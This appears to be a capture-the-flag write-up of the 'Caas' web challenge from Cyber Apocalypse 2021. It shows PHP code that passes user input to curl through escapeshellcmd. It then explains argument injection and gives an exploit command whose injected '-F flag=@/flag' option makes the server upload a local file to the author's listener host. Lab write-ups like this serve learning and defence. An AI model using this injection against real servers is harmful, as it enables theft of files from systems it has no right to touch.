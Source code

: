```yaml
---
title: Caas
date: 2021-04-25 12:52:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


Looking at the name of the challenge, I suspect it has something to do with Curl. Which could be vulnerable to command injection. However, let's check the source code before making any assumption. (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/caas_web.png#center)

## Vulnerability
Let's take a look at `CurlController.php`:

```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```

It takes the ip from the body without any sanitization and creates a new Command Model, so let’s check what `CommandModel.php` does:

```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

We can’t inject arbitrary commands to this because of the [escapeshellcmd](https://www.php.net/manual/en/function.escapeshellcmd.php) function but we can add arbitrary parameters. Looking at the [curl manual pages](https://curl.se/docs/manpage.html) I quickly found the -F option to exfiltrate a file. There is also this [cheatsheet](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl) which shows how you can bypass the escapeshellcmd function.

## Exploitation
With that information, we can simply request the flag and send the request to our host machine. We can send the following command after setting up a nc listener on port 6666:

```bash
curl -d "ip=-F flag=@/flag http://[MY-IP]:6666/" http://[DOCKER-IP]/api/curl
```

We receive the flag:

> CHTB{f1le_r3trieval_4s_a_s3rv1ce

٩(◕‿◕｡)۶